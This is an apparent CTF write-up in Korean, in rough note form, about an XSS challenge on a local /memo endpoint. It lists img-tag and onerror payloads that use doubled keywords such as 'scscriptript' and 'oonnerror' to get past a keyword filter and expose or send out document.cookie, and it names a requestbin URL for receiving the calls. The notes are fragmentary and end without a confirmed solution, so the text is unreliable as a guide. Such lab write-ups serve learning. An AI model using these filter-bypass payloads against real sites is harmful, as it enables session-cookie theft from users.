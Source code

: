# Write up

https://tools.dreamhack.games/requestbin/qycrdjp
img src로 get 호출이 되는지 확인
-> 호출 됐음


>

<img src="http://127.0.0.1:8000/memo?memo=<scscriptript>coonnsole.log(document.cookie)</scscriptript>">






location.href=http://127.0.0.1:8000/memo?memo=<img src="#" oonnerror="coonnsole.log(document.cookie)"> 




<img src="http://127.0.0.1:8000/memo?memo=<img src='111' oonnerror='locatioonn.href=/memo?memo=document.cookie' />" />


127.0.0.1 에서 document.cookie 값을 가져와서
host3 /memo 로 그 값을 찍어줘야함??

/memo 에서 스크립트 실행이 안됨


location.href=



<img src="http://127.0.0.1:8000/memo?memo=<img src='111' oonnerror='locatioonn.href=/memo?memo=document.cookie' />" />



